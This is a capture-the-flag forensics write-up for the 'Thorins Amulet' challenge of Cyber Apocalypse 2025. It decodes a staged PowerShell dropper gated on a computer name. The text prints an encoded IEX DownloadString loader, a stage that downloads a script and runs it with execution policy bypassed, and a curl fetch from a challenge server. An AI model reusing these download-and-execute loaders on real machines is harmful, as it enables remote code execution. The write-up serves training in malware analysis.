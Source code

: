 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Thorins Amulet Writeup
desc: Check out our writeup for Thorins Amulet for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Thorins Amulet
tags: "forensics, starry, powershell"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```






> Solved by Starry-Lord


![](https://i.imgur.com/KHsPmEl.png)


inside the zip downloadable we could find `artifact.ps1` :


    function qt4PO {
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
            exit
        }
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
    }
    qt4PO

Base 64 string decoded to the following:


    IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")

But it was not giving a connection unless you had the correct `COMPUTERNAME` environment variable. This will temporarily change it:


    $env:COMPUTERNAME = "WORKSTATION-DM-0043"

With that we could run the PowerShell if we wanted, but visiting the URL from the challenge docker was enough to get to the next stage which returned a `update.ps1`:


    function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq

This time I used curl with headers in order to pass the `X-ST4G3R-KEY` which was needed to get the last bit:

curl command:

    curl -H "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" http://94.237.57.230:59390/a541a

a541a.ps1:

    $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
    ($a35-split"(..)"|?{$_}|%{\[char\][convert]::ToInt16($_,16)}) -join ""

Decode hex for the flag:

    HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}


